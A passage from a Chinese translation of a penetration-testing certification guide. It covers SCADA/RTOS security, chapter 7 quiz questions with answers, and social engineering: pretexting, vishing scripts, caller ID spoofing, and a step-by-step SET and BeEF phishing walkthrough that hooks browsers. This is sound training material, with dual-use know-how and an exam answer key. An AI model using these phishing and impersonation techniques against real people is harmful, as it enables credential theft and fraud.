其他专用系统只能通过硬件逆向工程或自定义攻击方法进行攻击。在攻击方法论方面，有两类系统需要特别考虑：SCADA 和 ICS 系统，以及使用实时操作系统（RTOS）的嵌入式系统。接下来我们将更详细地分析这些系统。

##### SCADA 和工业控制系统

工业控制系统（ICS）是指与各类工业自动化相关的系统，包括制造业、发电（发电厂）、水处理和配电系统。监控与数据采集（SCADA）系统从 ICS 系统收集数据，协调将这些数据传输到中心位置，并以人类可用的格式呈现，以便随后控制 ICS 的组件。SCADA 网络的一项显著优势是告警处理。网络中部署的传感器将监控状况以确保正常功能。如果传感器指示正常运行发生变化，它可以触发指示器并在系统中生成警报，人工操作员可以管理响应。如图 7-9 所示，SCADA 系统可由多个组件组成，包括：


**图 7-9** SCADA 系统概念

- **监控工作站** 一台计算机或控制台，是收集数据并向连接设备（如 RTU 和 PLC）发送命令的系统核心。
- **远程终端单元（RTU）** 战略性地部署在网络上，靠近被管理的过程，将传感器信号转换并将数字数据中继回监控系统。
- **可编程逻辑控制器（PLC）** 与 RTU 类似，但具有更复杂的逻辑和配置能力。
- **通信基础设施** 连接设备并使用流行的 SCADA 协议（如基于 UDP 的 DNP3 和基于 TCP 的 ModBus）促进通信。


###### SCADA 和 ICS 系统安全

####### 人机界面 (HMI)

**人机界面 (HMI)** 通常安装在监控系统上的操作员应用程序（通常是图形用户界面），用于监控和管理监控系统。

不幸的是，SCADA 系统通常在开发时未将安全性纳入考量，且因其专用实现方式可能比较脆弱。SCADA 网络通常遵循“如果没坏就别修”的心态运行，打补丁的频率远低于企业网络。这些环境改造成本通常很高，且某些环境因未经授权的变更可能导致系统故障并造成损害，因此即使是微小的变更也需要遵循严格的认证要求。因此，许多 ICS 和 SCADA 所有者会要求在渗透测试期间预先批准使用的工具，并可能对写入文件、安装工具，甚至在这些网络上进行网络发现施加广泛限制。对某些系统而言，甚至针对单个组件的单次 TCP 或 UDP 端口扫描都可能导致灾难性故障。

一份由爱达荷国家实验室（INL）([www.inl.gov](http://www.inl.gov)) 进行、美国能源部核能办公室赞助的调查报告，名为“工业控制系统环境安全工具调查”，确定了在调查和测试 ICS 环境安全弱点时应考虑的现有工具。该报告可在美国能源部科学技术信息办公室网站 [`www.osti.gov`](https://www.osti.gov) 上找到。SCADA 网络通常应与企业域隔离。它们可能会遭受影响典型 IT 系统的相同威胁和攻击向量。NIST 特别出版物 800-82《工业控制系统 (ICS) 安全指南》([`csrc.nist.gov`](https://csrc.nist.gov)) 提供了 SCADA 和 ICS 系统中常见的弱点和漏洞，以及如何向环境应用必要的防护措施。


> **TIP**
> 有一个 Nmap NSE 脚本可枚举 SCADA 模块并收集可用的设备和供应商信息，称为 `modbus-discover`。ModBus 通常在 502/tcp 端口上运行。

由于认为这些系统最好隔离而非改造，因此在 ICS 系统中通常会看到一些常见弱点。在传统渗透测试中，明文协议可能是不可取的。但在某些环境中，它们可能是不可避免的。例如，Modbus 是一种明文协议，容易遭受拦截和重放攻击。然而，对某些环境所有者而言，修复此类问题的成本和现实是无法实现的。高性能要求可能是这些系统应与其他网络分段的另一个原因。其他设备可能存在已知弱点，但属于关键任务设备且没有可行的替代方案。制造商有时会倒闭，而该专业细分领域未被其他制造商接手。遗留应用程序也是如此。在某些情况下，没有其他解决方案能在现有的专用操作系统上运行，且当前解决方案根本没有可用的修复方案。系统所有者无法更改的硬编码密码可能正在使用中，或者安装人员使用的默认密码未被更改。这些设备的密码列表在网上自由流传。

渗透测试可能需要侧重于在其他设备的背景下评估网络分段和设备隔离，以保护运行工业物联网 (IIoT) 或 ICS 和 SCADA 设备的网络。请记住，传统的风险关注点可能不如人员或环境安全、对流程的影响或法规合规性那样适用于这些环境。

##### 嵌入式系统

嵌入式系统由计算机硬件和软件组合而成，旨在为特定目的而设计和编程。微控制器和微处理器是内置处理器和内存的嵌入式系统，常见于家用电器和智能家居自动化，以及医疗设备、销售终端系统、车辆和多功能设备（打印机和扫描仪）中。一些嵌入式系统提供的用户界面非常类似于现代操作系统，称为实时操作系统 (RTOS)，它是常见部署操作系统（如 Linux 和 Microsoft Windows）的精简版本。

RTOS 必须遵守与任务相关的截止时间，无论系统中发生什么。一些常见的 RTOS 有 LynxOS、OSE、QNX、Real Time (RT) Linux、VxWorks 和 Windows CE (WinCE)。RTOS 分为三类：硬、固和软。硬 RTOS 必须严格遵守相关任务的时间约束。可用性和反应时间在这些系统的设计中极为重要。在起搏器等医疗应用中，设备会在恰当的时间刺激心肌。如果任务完成得太晚或太早，患者的生命可能会受到威胁。固 RTOS 和软 RTOS 仍然对时间敏感；但是，它们提供了一定的灵活性，因为错过截止时间可能会导致不良影响，但不会造成灾难性后果。由于大多数 RTOS 都是由回收代码或现有操作系统构建的，因此它们并不豁免于已知漏洞。

RTOS 很难打补丁，通常以固件更新或升级的形式出现，许多供应商发布频率不高。其中一些系统运行基于 Web 的应用程序，并配置了默认凭据（即 `admin/admin`、`admin/password`），这使它们成为攻击的易攻击目标。渗透测试人员通过网络评估这些设备的方法类似于针对企业 IT 系统采取的方法。Nmap 指纹数据库包含数千个条目，其中包括 IoT 网络服务和操作系统。IoT 和嵌入式设备已经存在一段时间了，并且每年都在越来越受欢迎。由互联网安全中心发布的《CIS 关键安全控制的物联网安全伴侣指南》提供了保护嵌入式操作系统免受常见攻击类型的最佳实践。

### 章节复习

在本章中，我们从高层探讨了移动渗透测试以及专用和脆弱系统的渗透测试。本章提供的信息足以让你识别有关这些设备的问题，解决一些关于攻击类型和特殊考虑因素的基本考量，并思考适用于这些设备的常见弱点和漏洞。然而，这是一个非常广泛的专业领域，你应该利用提供的资源进行额外研究，以帮助准备考试。熟悉我们在练习中提供的一些工具，并花时间了解它们的界面和输出，以便在考试中被问到时能够识别和操作它们。

##### 练习题

**1.** 什么用户界面框架使开发人员能够在 iOS 平台上构建软件应用程序？

**A.** Core OS

**B.** Media

**C.** Cocoa Touch

**D.** Objective-C

**2.** 使用 Swift 而非 Objective-C 开发移动应用程序的一个优势是什么？

**A.** 它是一种现代语言，非常接近英语。

**B.** 它使多年开发代码的程序员更容易上手。

**C.** Objective-C 比 Swift 更新。

**D.** Objective-C 是开源的，而 Swift 不是。


###### 3.
Apple 使用代码签名来确保仅安装经过批准的应用程序到 iDevice 上。这是 iOS 的核心安全功能之一。在受支持的 iDevice 上，你可以使用哪种方法来获取特权访问？

**A.** Root（Rooting）

**B.** 越狱

**C.** SETUID

**D.** JTAG

###### 4.
Android 平台提供核心组件，用于增强用户对产品的体验。哪种类型的组件有时对用户可见，并有助于在移动应用程序中提供一致的用户体验？

**A.** 服务

**B.** 广播接收器

**C.** 活动

**D.** 意图

###### 5.
较旧版本的 Android 操作系统（5.0 及更早版本）不使用 Android Runtime (ART)；它们使用 Dalvik 虚拟机。Smali 文件采用一种汇编语言编写，是在哪个过程中创建的？

**A.** 编译

**B.** 服务端测试

**C.** 动态分析

**D.** 反汇编 DEX 可执行文件

###### 6.
一种用于解决电路板上嵌入式设备调试和连接问题的 IEEE 标准叫什么？

**A.** JTAG

**B.** RMF

**C.** XCode

**D.** Clutch

###### 7.
SSH 和 iProxy 是连接到已越狱 iDevice 的两种方式。如果 iDevice 出现故障，你必须重新建立连接，那么在 macOS 笔记本电脑上确保没有 iProxy 进程仍在运行的最简单方法是什么？

**A.** `iproxy stop`

**B.** `killall iproxy`

**C.** `kill iproxy`

**D.** `kill -9 <process id>`

###### 8.
从 Google Play Store 将客户的移动应用程序安装到你的已越狱 iPhone 后，下一步是使用 Clutch 将应用程序包转储为 IPA，以便用于静态分析。默认情况下，Clutch 在后处理后将 IPA 文件存储在哪里？

**A.** `/var/tmp/clutch`

**B.** `/var/tmp`

**C.** `/tmp`

**D.** `/storage`

###### 9.
属性列表文件包含关于安装在 iOS 上的应用程序的配置数据。默认情况下，Apple 的最佳安全实践实施了一项称为 App Transport Security (ATS) 的安全功能，以提高数据隐私和完整性。然而，有一种方法可以通过 plist 文件中的应用程序设置绕过此功能。用于控制 HTTP 连接行为的键的名称是什么？

**A.** `NSAppleScriptEnabled`

**B.** `NSAppTransportSecurity`

**C.** `NSAllowsLocalNetworking`

**D.** `NETestAppMapping`

###### 10.
选择两种可用于将第三方应用程序安装到已越狱 iDevice 的方法。

**A.** Cydia

**B.** idb

**C.** Impactor 工具

**D.** Clutch

###### 11.
与 Android Debug Bridge (ADB) 一起使用以启用从 Android 设备下载文件的正确命令选项是什么？

**A.** `download`

**B.** `copy`

**C.** `pull`

**D.** `push`

###### 12.
使用 Drozer 对来自同一供应商的两个独立应用程序进行 Android 评估时，你执行命令 `run app package.list` 以列出应用程序的权限。你在报告中观察到，这些应用程序被允许在外部存储上读取和写入文件。你想测试应用程序的哪个组件以查找注入缺陷？

**A.** 接收器

**B.** 活动

**C.** 服务

**D.** 内容提供器

#### 答案

###### 1.
**C.** 用于构建在 iOS 平台上运行的应用程序的用户界面称为 Cocoa Touch。

###### 2.
**A.** Swift 是一门现代语言，其代码比 Objective-C 更易读。

###### 3.
**B.** 越狱是利用手机软件漏洞以提升设备权限的方法。Root（Rooting）是针对基于 Android 的手机获取特权执行的软件漏洞利用。

###### 4.
**C.** 所有答案都是 Android 应用程序的组件；然而，活动专门用于帮助增强用户体验。

###### 5.
**D.** DEX 文件在编译时会被转换为 .smali 扩展名。Smali 是一种汇编器，Smali 文件是在反汇编 Dalvik 可执行文件 (DEX) 时创建的，DEX 文件包含在 APK 中。

###### 6.
**A.** JTAG 是一种行业标准和通用的硬件接口，用于验证设计和测试方法。通常由制造商添加（有时隐藏），JTAG 接口可用于连接到控制台并获取对嵌入式设备的命令行访问权限。

###### 7.
**B.** `killall iproxy` 是最简单的方法。`kill -9 <process id>` 仍然是结束进程的有效方法，但当存在多个进程时，它不是最简单的。

###### 8.
**A.** 默认情况下，Clutch 会将所有 IPA 文件存储在 `/var/tmp/clutch` 目录中。

###### 9.
**B.** `NSAppTransportSecurity` 指定 iOS 和 macOS 应用程序中默认 HTTP 连接安全行为的更改。

###### 10.
**A, C.** 两个正确答案是 Cydia 应用商店（当你有互联网连接并可以使用 iDevice 上的 Cydia 移动应用下载和安装包时）和 Impactor 工具（当你首次越狱手机或没有可用的互联网连接时）。你可以通过 USB 连接，拖放 IPA 文件，并通过 Impactor 直接安装到设备上。

###### 11.
**C.** `pull` 命令用于从设备下载文件，而 `push` 命令可用于将文件传输到设备。

###### 12.
**D.** 内容提供器可能提供来自应用程序内部的注入点。一些移动应用程序共享相同的外部存储位置。因此，如果注入点被利用，可能会使恶意用户能够读取应用程序沙箱环境之外的内容。

## 第 8 章：社会工程学和物理攻击

在本章中，你将了解

- 社会工程学的影响方法、借口攻击和冒充
- 使用各种媒体类型和工具进行社会工程学攻击的基础知识
- 了解基本的物理安全攻击

到目前为止，我们已经讨论了如何使用各种工具、技术和方法远程利用并访问目标。然而，测试物理安全措施同样重要，因为物理控制旨在保护人员和财产免受伤害。当攻击者获得设备的物理控制权时，安全服务、防火墙和网络入侵检测系统无法提供保护。组织可能会选择使用多层防护来降低物理攻击（如盗窃、破坏、欺诈和破坏公物）以及意外事件（如自然灾害，例如地震）的风险。

进入设施的物理访问可通过限制物理访问点并在这些点周围建立进入检测机制、威慑措施或访问控制来保护。访问可通过设备加以限制，例如屏障、锁、保安、闸机或入口前室等。检测机制可能包括人工或技术监控、报警和传感器等措施。政策和程序可能通过建立访客签到和签离流程，或对允许他人未经授权进入的授权人员规定后果，来增加另一层保护。物理渗透测试旨在测试这些控制措施。


切勿低估说服力的威力。人类往往是拥有最强技术壁垒和复杂安全系统的组织中最薄弱的环节。正如我们在第 2 章所学，使用开源情报收集技术可以获得大量知识。社会工程学利用这些信息，其核心信念是：当你按下正确的“按钮”时，人类的思维是可以被操纵的。在本章中，我们将讨论社会工程学方法和攻击，包括利用社会工程学的物理攻击。

### 物理安全与社会工程学

组织可以实施多层物理安全，包括以下内容：

*   **监控** 监视、警卫
*   **检测** 闭路电视（`CCTV`）摄像头、安全警报、传感器
*   **防范** 物理屏障、照明、机械或电子锁具机制

带刺铁丝网、电力和标识有助于强化围栏的安全态势，并有助于缓解外部入侵。


**注意** `perimeter barrier`（周界屏障）和 `access control point`（访问控制点）是另外两种物理安全防护措施，有助于延缓攻击，或在攻击者成功渗透时减少对设施的损害。更多关于周界安全的详细信息，请参阅联邦应急管理局（`FEMA`）出版物《FEMA 430, Site and Urban Design for Security: Guidance against Potential Terrorist Attacks (2007)》中的第 4 章“周界安全设计”（<https://www.fema.gov>）。

美国国家标准与技术研究院（`NIST`）提供了一套标准，组织可将其应用于物理安全需求。其中一些控制措施可通过审查组织的策略文档来满足，以确保其符合控制要求。其他控制措施可能需要对控制措施进行实际的技术评估，以确保实施有效。这就是物理渗透测试在项目中发挥作用的地方。

`NIST Special Publication 800-53 (Rev. 4)`（<https://nvd.nist.gov/800-53/Rev4>）提供了一份与联邦信息系统及私营部门组织相关的信息安全控制清单。物理与环境保护（`PE`）控制族确定了 20 项与物理安全相关的独特控制，以及满足控制要求的方式。例如，`PE-3 Physical Access Control`（物理访问控制）规定组织需强制执行物理访问授权，即组织将如何满足控制内部和外部入口点访问的要求？一个显而易见的答案是锁。控制的影响级别以及组织在发生违规时将受到的影响，将决定组织在门上安装的锁具机制的复杂程度。表 8-1 提供了摘自 `NIST Special Publication 800-53 (Rev.4)` 的 `PE` 控制清单及补充指南。


**表 8-1** 物理与环境保护控制族


**注意** 联邦信息处理标准（`FIPS`）199（<https://csrc.nist.gov/publications/fips>）是 `NIST` 的一项出版物，提供了基于影响级别对信息和信息系统进行分类的标准。共有三个影响级别：低、中、高。每个级别决定了控制失效时组织在机密性、完整性和可用性方面的损失程度。

禁用警报或摄像头、撬锁、翻越围栏、打穿吊顶以绕过墙壁，这些都是渗透测试中可能采取的行动的完美示例，但为了考试，我们将重点关注物理渗透测试的社会工程学方面。我们将重点关注渗透测试人员用于人类目标以实现渗透测试目标的方法。这可能涉及说服某人允许通过特定访问点、窃取访问设备以获取入口权限，或利用其他物理工件获取关于目标的情报。

#### 预设场景与冒充

社会工程学是让某人为你做一些他们通常不会做或不想做的事情的过程。这可能只是让某人关注一封他们可能会视为无关而忽略的电子邮件，也可能复杂到让某人违背（或打破）他们明知应遵守的规则。通常，当人们没有理由信任请求时，他们不太愿意关注或违背规则。

信任可能来自请求者的身份、提出请求的原因，甚至请求内容的价值。试想，当你的配偶向你要钱时，你可能比陌生人在街上向你要钱时更愿意给予。如果是陌生人提出请求，你可能不太愿意，直到你了解需要钱的原因（“我女儿刚吐了午饭，我老婆留我在队里取餐去照顾她了，我突然发现钱包还在她那，我身上有点不够。”）。同样，如果请求是一千美元，你可能会比只需零花钱时更在意。

那么，你如何说服目标他们应该按你的要求行事？你需要什么样的故事来说服他们信任你并放弃对采取行动的顾虑？你会告诉他们你是谁，为什么他们应该采取行动？回答这些问题正是我们建立预设场景（`Pretexting`）的一部分。

预设场景是一种用于创造情境的技术，可使目标更愿意配合社会工程师的需求。例如，试图以身体不适急需使用私人洗手间为借口，说服保安允许你通过访问控制点。你所谓的困境性质可能会激起保安的同情（甚至惊恐），足以让他们愿意违背不允许你通过的规定。我们将在下一节更多地讨论社会工程师使用的影响力方法，但请记住，预设场景是社会工程师用来使请求合理化并建立与目标的信任以说服他们的情境或故事。

另一种旨在建立信任的技术是冒充（`Impersonation`）。声称是权威人物或名人可能会给目标服从请求的理由。更隐蔽的是，社会工程师可能会尝试让目标打开一个从未见过的发件地址发来的电子邮件，方法是使其看起来类似于他们见过的地址。也许最近发生了自然灾害，多个援助组织正在为帮助受灾者的工作寻求财务援助。目标可能不认识某个虚构的援助组织，但其看起来像个援助组织这一事实可能就足以抓住目标的注意力。值得注意的是，这必须谨慎使用。


##### 冒充与法律考量

冒充特定个人或组织可能构成刑事犯罪。例如，假执法人员或联邦机构成员通常是违法的。在钓鱼邮件中使用合法公司的徽标，同时声称是该公司代表，可能违反版权法。当然，什么构成犯罪冒充取决于地区法律，且可能因地点而异。在某些情况下，冒充的对象不如冒充背后的意图重要。以欺诈为目的假设虚假身份、冒充他人或组织，甚至以他人身份开设银行和信用账户（即身份盗窃），视情境和地区而定，均可能属于违法行为。因此，务必确保渗透测试中使用的任何类型的社会工程学攻击均包含在工作说明书（`SOW`）中，并在执行前在交战规则（`RoE`）中获得批准。

#### 影响力手段

有多种方法可以影响他人，使其按你的意愿行事。CompTIA 确定了可用于利用目标信任的激励技术。社会工程学框架（[`www.social-engineer.org`](https://www.social-engineer.org)）为每种影响力战术提供了定义和示例：

*   **权威**  
    这可以通过 `legal`（冒充执法人员）、`organizational`（冒充企业领导）或 `social`（同龄群体中的主导人物）领导角色来执行，以获取财产或受控信息的访问权限。

*   **稀缺性**  
    这能让事物对目标更具吸引力。当时间变得稀缺时，会产生 `urgency`（紧迫感），从而影响决策逻辑。虚假陈述可用于说服某人采取行动，因为听起来很重要且行动时间很少，例如“促销今日结束。立即行动，错过不再！”

*   **社会认同**  
    这描述了一种特定的社会现象：局外人基于群体行为寻求一致性。回想一下你完全不知道什么行为得体的情境。你可能会环顾四周，看别人在做什么。你假设他们知情，于是模仿他们的行为以求融入，掩饰自己的无知。这就是社会认同。

*   **喜好**  
    这种方法利用了心理学概念：人们通常更愿意帮助自己喜欢的人。这可以是长相俊美或面熟的人，也可以是对目标大加赞赏的人。本质上，这是建立融洽关系。

*   **恐惧**  
    这种方法试图在目标心中制造恐惧。例如利用恶意软件（恐吓软件）影响他人决定购买或下载假冒杀毒程序或其他带有恶意意图的软件。

#### 社会工程学与物理攻击

假设你在现场，需要访问目标网络。你在建筑物外部任何地方都看不到 `WLAN`。请回想，我们在第 4 章中讨论过无线网络的范围及邻近性在攻击中的作用。在此场景下，你是否尝试进入大楼以靠近网络？你是否试图说服某人将一个可通过蜂窝连接回连的无线攻击设备带入大楼？如果你不在现场，该如何说服内部人员利用其权限运行载荷？

社会工程学攻击通常涉及利用人为因素绕过安全控制。这可能意味着通过说服拥有内部访问权限的人执行恶意载荷来绕过防火墙，也可能意味着通过说服人员允许未经授权的人员或设备进入来绕过物理控制。在本节中，我们将讨论 CompTIA PenTest+ 考试目标涵盖的社会工程学攻击，包括钓鱼攻击、电话攻击、Web 攻击，以及垃圾箱搜寻、诱饵攻击、肩窥、尾随和工牌克隆等物理攻击。

################ 钓鱼攻击

社会工程学最常用的方法之一是 `phishing`（钓鱼）。这是一种通过电子邮件、电话或短信实施的欺诈技术，用于从目标处获取敏感信息。渗透测试员可受雇实施钓鱼攻击向量，以评估网络上的技术防御措施，如邮件垃圾过滤器、Web 内容过滤器、防火墙和其他访问控制设备。他们还可以帮助验证员工报告和应对威胁的行为模式，以及通过可控的妥协手段获取组织网络的初始立足点。在钓鱼评估期间，可跟踪与载荷成功交互的次数、打开邮件的人数，或因攻击而达成目标的其他信息，用于报告。

################ 电子邮件攻击

电子邮件钓鱼攻击的三个主要特征是目标定位、借口和载荷。目标定位指接收钓鱼邮件的人员。借口是邮件制造的情境，包括攻击者与预期目标之间的关系。载荷是攻击者实现攻击目标所使用的方法。

在实战中，攻击者倾向于对目标实施机会主义或定制化攻击。机会主义攻击涉及制作尽可能宽泛的借口，并不加选择地发送给尽可能多的目标，希望有一个或多个目标根据邮件采取行动。这些目标列表可能基于常见姓名和已知域名（如 Gmail）随机生成。借口从假设的个人关系到冒充公司招揽业务不等，但通常不包含针对个别目标量身定制的信息。载荷通常是通用的，不考虑目标的特定操作系统或安全控制。现代安全控制在检测这些机会主义攻击方面相当擅长，这意味着渗透测试员采用定制化方法往往能获得更好的结果。在定制化方法中，目标列表源自情报收集，或在渗透测试中由客户提供。借口包含对目标的研究信息，可能包括姓名、职位，甚至与目标个人相关的兴趣爱好。载荷可能基于侦察活动考虑目标使用的安全控制或软件。


####### 钓鱼攻击目标与定制化攻击类型

在深入探讨定制化攻击之前，需要了解通过电子邮件进行的钓鱼攻击通常有三个目标之一：建立融洽关系、收集信息，或投递用于执行的恶意内容。通过多轮对话式邮件交换与目标建立融洽关系，可能会诱导目标代表攻击者采取后续行动。一个例子是说服目标向攻击者进行财务转账，这在常见的“419 诈骗”中很流行。在渗透测试中，红队可能利用此方法绕过垃圾邮件过滤机制：通过发起邮件对话且不包含附件、链接或其他会引起自动化安全控制怀疑的主动内容。冒充潜在客户或求职者以获取更多公司信息，将是此类攻击的有效借口和目标。

信息收集可以通过这种来回交换进行，也可以通过载荷以编程方式完成。例如，载荷可能尝试利用文档或网页表单收集凭证，或者允许攻击者收集系统或网络信息。如果用户点击了包含指向渗透测试人员控制的网页链接的载荷，渗透测试人员可能会了解到组织使用的代理、浏览器类型，甚至根据目标点击消息的时间推断目标用户的习惯。其他恶意载荷可能尝试在用户打开邮件或以其他方式与邮件内容交互时通过执行漏洞利用在环境中建立立足点。

既然我们已经大致讨论了钓鱼攻击的目标，通常有两种定制化攻击类型：**鱼叉式网络钓鱼**和**鲸钓攻击**。鱼叉式网络钓鱼利用关于组织或个人的信息，试图绕过安全控制并建立一个可能说服用户的借口。目标用户可以是公司内的任何人。另一方面，鲸钓攻击则针对拥有提升权限的组织成员，如高管或高管助理。成功攻陷这些目标可让攻击者滥用信任链，从而在整个组织中产生更广泛的连锁影响。如果你老板的老板的老板给你发邮件让你做某事，你会照做吗？

######## 渗透测试中的邮件攻击流程

为了作为渗透测试人员执行此类攻击，你需要尽可能多地了解目标组织的安全控制。如果你的载荷无法到达预期目标，你将无法实现目标。无论你是在渗透测试规划讨论中从客户处获得此信息，还是在侦察阶段收集，你都需要了解足够多的安全控制知识，以便调整你的载荷和邮件投递机制，从而触达目标人员。电子邮件攻击通常遵循以下路径：

*   收集情报，包括目标、安全控制和用于借口的信息。
*   根据收集的情报创建载荷，特别考虑控制措施和借口。
*   编写一封包含有效借口以投递载荷的电子邮件。
*   建立发送邮件的电子邮件基础设施，包括邮件服务器、域名和其他必要的托管。
*   建立回调基础设施，如 Web 服务器、C2 等。


> **NOTE**  
> 此博客详细介绍了安全控制注意事项，以及如果你选择使用自己的域名和服务器进行钓鱼，邮件服务的设置：[`www.ired.team/offensive-security/red-team-infrastructure/smtp`](https://www.ired.team/offensive-security/red-team-infrastructure/smtp)

################ 基于电话的攻击

渗透测试人员拨打商定的目标名单上的电话号码，联系到销售部门的一名员工。测试人员自称“客服部的 Sam”，称公司正在为远程虚拟专用网络（VPN）解决方案运行一个新的试点项目，该员工已被选中参与。为确保试点启动当天一切顺利，客服部需要该员工确保能使用其登录凭证访问试点 VPN 门户。员工在浏览器中输入测试人员通过电话提供的网址，看到一个看起来像公司品牌网页的页面，提及 VPN 并带有登录界面。员工输入用户名和密码，测试人员从其控制的 Web 服务器收集这些信息。这种通过电话进行社会工程学的技术有时称为**语音钓鱼**。

与其他社会工程学方案一样，目标可能是收集更多信息，或执行旨在授予攻击者访问权限的载荷。目标信息的例子可能包括未公开的电话号码、业务合作伙伴名称或待定业务交易的细节。无论哪种方式，初始攻击向量可以是电话、短信或语音邮件。在短信（有时称为**短信钓鱼**）或语音邮件的情况下，攻击可能旨在通过让目标个人回拨攻击者或鼓励目标访问网站来建立进一步通信。为了作为渗透测试人员执行这些攻击，了解目标个人的知识水平、掌握正常的商业术语，以及可能需要来电显示伪造技术会很有帮助。


> **CAUTION**  
> 来电显示伪造在某些地方和某些情况下可能是非法的。在美国，根据《来电显示真实法案》，除非用于欺诈、造成伤害或不正当获取任何有价值的东西，否则来电显示伪造是合法的。请确保你对来电显示伪造的使用条款在渗透测试合同中已定义并获得相应授权。你可以在联邦通信委员会（FCC）网站上阅读更多关于美国来电显示伪造的信息：[`www.fcc.gov/spoofing#:~:text=When%20is%20spoofing%20illegal%3F,to%20%2410%2C000%20for%20each%20violation`](https://www.fcc.gov/spoofing#:~:text=When%20is%20spoofing%20illegal%3F,to%20%2410%2C000%20for%20each%20violation)

了解一些关于个人的信息，如果你的目标是除每个人都可能拥有的用户凭证之外的特定类型信息，将会有所帮助。询问制造部门的人员会计细节，可能不如询问会计部门的人员成功。此外，你可能利用共同兴趣建立融洽关系。如果你知道一个人的爱好并能将其融入对话，你可能会让这个人对你放松警惕，以至于他们忽略了一些顾虑，或在话题转换时未察觉。

说到根据目标调整你的互动，每个公司都有自己内部的行话品牌。公司越大，语言越有可能专属于该组织。在借口中了解并使用这些术语，可能建立起必要的信任，迫使目标配合。另一方面，培训员工通过内部即时通讯系统确认来自权威的任何形式电话联系的组织，可能更难通过冒充内部权威的借口来攻破。


在许多企业环境中，商务电话会在电话屏幕上显示来电者的姓名和分机号。手机也是如此。使用来电显示伪造服务，从相同的区号拨打电话，或显示与您冒充身份相关联的姓名，可能会增加您借口的可信度。许多商业服务允许您执行此操作，包括允许您使用临时电话号码（一次性号码）和 ID 进行电话和短信通讯的智能手机应用程序。其中许多依赖于**语音互联网协议（VoIP）**技术。其中一些使用的协议称为**会话初始协议（SIP）**。可以利用配置为允许匿名 `SIP INVITE` 请求的电话系统，并使用 `Metasploit` 和 `Viproy`（[`www.viproy.com/`](http://www.viproy.com/)）等工具创建伪造的来电显示，甚至可以使用不存在的号码。


**注意**   Rapid7 有一个博客系列，如果您选择不使用现有服务，它将指导您手动配置来电显示伪造系统：[`www.rapid7.com/blog/post/2018/05/24/how-to-build-your-own-caller-id-spoofer-part-1/`](https://www.rapid7.com/blog/post/2018/05/24/how-to-build-your-own-caller-id-spoofer-part-1/)

####### 其他 Web 攻击

我们在本章前面讨论了将 Web 资源用于网络钓鱼尝试，但 CompTIA 为 PenTest+ 考试将其他基于 Web 的攻击归类为社会工程学范畴。水坑攻击利用了目标对其常访问网站的信任关系。在这种攻击中，攻击者观察目标经常访问的网站，并用恶意软件感染其中一个站点。这是一种有利的定向方式，因为攻击者已经知道目标会访问该网站，因此只是时间问题，最终会成功利用。如果您在渗透测试期间使用此策略，应非常小心地遵守适当的护栏，以避免感染目标组织之外的网站访问者。护栏可能会使用系统特征，如来源 IP 地址或特定于组织的注册表项，以防止意外将渗透测试范围之外的系统作为目标。

####### 社会工程学工具

**社会工程学工具包（SET）**（[`www.trustedsec.com/social-engineer-toolkit-set/`](https://www.trustedsec.com/social-engineer-toolkit-set/)）是一个开源的、基于 Python 的社会工程学框架。它默认包含在 Kali Linux 中。正如我们在本章前面讨论的，社会工程学攻击可能包括使用网页来收集凭证或在目标访问时执行载荷。SET 通过提供在社会工程学攻击背景下伪造电子邮件、接收 Web 请求和提供载荷的技术组件来提供帮助。**浏览器利用框架**，或 `BeEF`（[`beefproject.com/`](http://beefproject.com/)）是另一个可能对使用社会工程学的基于 Web 的攻击有用的工具。`BeEF` 专注于针对 Web 浏览器的客户端攻击。结合使用 `SET` 和 `BeEF` 为实施基于网络钓鱼的攻击提供了一个综合测试框架。

请跟随我们探索结合使用 `SET` 和 `BeEF` 挂钩目标 Web 浏览器的基本技术，随后可以使用 `BeEF` 命令模块在浏览器内发起额外攻击。建议为该练习准备以下基本项目：

•   用于攻击系统的 Kali Linux 更新版本

•   用于接收电子邮件的测试 Google 账户

•   目标系统上的 Web 浏览器

•   攻击系统和目标系统均可访问互联网

**1.**   第一步是从交战规则中识别目标并构建目标列表。在本示例中，我们将以一个电子邮件地址为目标。打开 `SET`，在 `set>` 菜单提示符下，选择选项 1，社会工程学攻击。


**2.**   在下一个 `set>` 菜单提示符下，选择选项 5，群发邮件攻击。


**3.**   在 `set:mailer>` 提示符下，选择选项 1 向单个电子邮件地址发送邮件。


**4.**   在本示例中，我们将发送电子邮件到我们拥有的账户。下一步是构建您的网络钓鱼电子邮件模板。为此，您需要设置电子邮件的发件来源（Gmail）、收件人行、发件人姓名和消息正文。在下图中，您将看到该消息试图引诱目标查看“customerservice”发布的新销售页面。一旦您在最后的 `set:phishing>` 提示符下输入 **`END`** 并按回车键，您将启动活动，消息将被发送给您的目标。


**5.**   为了使攻击生效，我们需要创建一个供用户点击链接后浏览的网页。该页面将包含一个嵌入的 JavaScript 标签，用于加载 `BeEF` JavaScript 代码（`hook.js`），以将浏览器挂钩到框架中。启动 `BeEF`，打开一个终端窗口，将目录更改为 `/tmp`，并编辑 `index.html`。下面显示的是一个基本的 HTML 页面，我们可以用它在目标登陆页面时为其提供服务。


**6.**   然后保存并退出 `vi` 编辑器，并使用带有 `SimpleHTTPServer` 模块的 Python 从 `/tmp` 目录的 80 端口托管网页。


**7.**   现在打开来自“customerservice”的电子邮件，看看您可能错过了什么样的促销活动。


**8.**   点击电子邮件内的链接时，您应该会被重定向到我们在第 5 步中创建的网页。


**9.**   如果您查看在第 6 步中启动 `SimpleHTTPServer` 的终端窗口，您将看到来自目标 IP 的 HTTP GET 请求，如果成功，`hook.js` 将被执行，并且您将在 `BeEF` 的“已挂钩浏览器”部分看到目标的 IP 地址显示出来。


**10.**   当浏览器上线时，您可以执行 `BeEF` 命令模块通过 Web 浏览器攻击目标计算机。

####### 垃圾箱搜寻

垃圾箱搜寻是社会工程学中使用的一种物理攻击。它涉及翻找组织的垃圾箱或垃圾，以检索敏感信息。一些组织保护垃圾的力度不如业务的其他要素，因此渗透测试人员可能会发现可能已被销毁（例如通过粉碎）或未被销毁的信息。一旦某物被放入垃圾桶并投放收集，它通常在法律上属于公共领域。尽管组织可能会使用安全数据销毁服务或实施额外的控制措施（如锁或围栏）来保护废弃物免受未经授权的访问。因此，您可能需要绕过某些物理控制才能访问此信息。如果成功，您可能会找到用户名、策略、密码、软件、账户信息、财务报表或会议记录。了解业务合作伙伴或组织使用的技术有助于借口构建过程或识别其他攻击途径。

####### USB 投放

诱饵攻击是一种利用有形奖励引诱目标执行某项操作的程序。一个例子是投放一个标记为“公司财务数据”的 USB 设备或 CD。其目的是激发目标的好奇心，从而说服他或她将设备引入内部环境。他们可能会插入设备并自动启动键盘记录器或授予您访问权限的恶意软件。


##### 物理渗透测试与社会工程学

